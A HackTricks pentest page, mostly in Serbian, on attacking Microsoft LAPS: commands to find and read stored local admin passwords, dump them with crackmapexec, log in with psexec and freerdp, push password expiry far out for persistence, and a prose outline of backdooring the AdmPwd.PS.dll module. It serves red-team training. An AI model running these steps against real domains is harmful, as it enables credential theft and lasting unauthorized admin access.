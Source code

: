 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Basic Information

Rešenje za lozinke lokalnog administratora (LAPS) je alat koji se koristi za upravljanje sistemom gde se **lozinke administratora**, koje su **jedinstvene, nasumične i često menjane**, primenjuju na računare povezane sa domenom. Ove lozinke se sigurno čuvaju unutar Active Directory-a i dostupne su samo korisnicima kojima je odobrena dozvola putem lista kontrole pristupa (ACL). Bezbednost prenosa lozinki od klijenta do servera obezbeđena je korišćenjem **Kerberos verzije 5** i **Naprednog standarda za enkripciju (AES)**.

U objektima računara domena, implementacija LAPS-a rezultira dodavanjem dva nova atributa: **`ms-mcs-AdmPwd`** i **`ms-mcs-AdmPwdExpirationTime`**. Ovi atributi čuvaju **lozinku administratora u običnom tekstu** i **njeno vreme isteka**, redom.

### Check if activated
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPS Password Access

Možete **preuzeti sirovu LAPS politiku** sa `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` i zatim koristiti **`Parse-PolFile`** iz [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) paketa da konvertujete ovu datoteku u format koji je čitljiv za ljude.

Pored toga, **nativni LAPS PowerShell cmdleti** mogu se koristiti ako su instalirani na mašini kojoj imamo pristup:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView** se takođe može koristiti za otkrivanje **ko može da pročita lozinku i pročita je**:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) olakšava enumeraciju LAPS-a sa nekoliko funkcija.\
Jedna je parsiranje **`ExtendedRights`** za **sve računare sa omogućenim LAPS-om.** Ovo će prikazati **grupe** specifično **delegirane za čitanje LAPS lozinki**, koje su često korisnici u zaštićenim grupama.\
**Nalog** koji je **pridružio računar** domeni dobija `All Extended Rights` nad tim hostom, a ovo pravo daje **nalogu** mogućnost da **čita lozinke**. Enumeracija može prikazati korisnički nalog koji može čitati LAPS lozinku na hostu. Ovo može pomoći da **ciljamo specifične AD korisnike** koji mogu čitati LAPS lozinke.
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**
Ako nema pristupa powershell-u, možete zloupotrebiti ovu privilegiju daljinski putem LDAP-a koristeći
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
Ovo će izlistati sve lozinke koje korisnik može da pročita, omogućavajući vam da dobijete bolju poziciju sa drugim korisnikom.

## ** Korišćenje LAPS lozinke **
```
freerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS Persistencija**

### **Datum isteka**

Kada postanete administrator, moguće je **dobiti lozinke** i **sprečiti** mašinu da **ažurira** svoju **lozinku** tako što ćete **postaviti datum isteka u budućnost**.
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
Lozinka će se i dalje resetovati ako **admin** koristi **`Reset-AdmPwdPassword`** cmdlet; ili ako je **Ne dozvoljavajte vreme isteka lozinke duže od onog što zahteva politika** omogućeno u LAPS GPO.
{% endhint %}

### Backdoor

Izvorni kod za LAPS se može naći [ovde](https://github.com/GreyCorbel/admpwd), stoga je moguće staviti backdoor u kod (unutar `Get-AdmPwdPassword` metode u `Main/AdmPwd.PS/Main.cs`, na primer) koji će na neki način **ekstraktovati nove lozinke ili ih negde skladištiti**.

Zatim, samo kompajlirajte novi `AdmPwd.PS.dll` i otpremite ga na mašinu u `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (i promenite vreme modifikacije).

## References
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

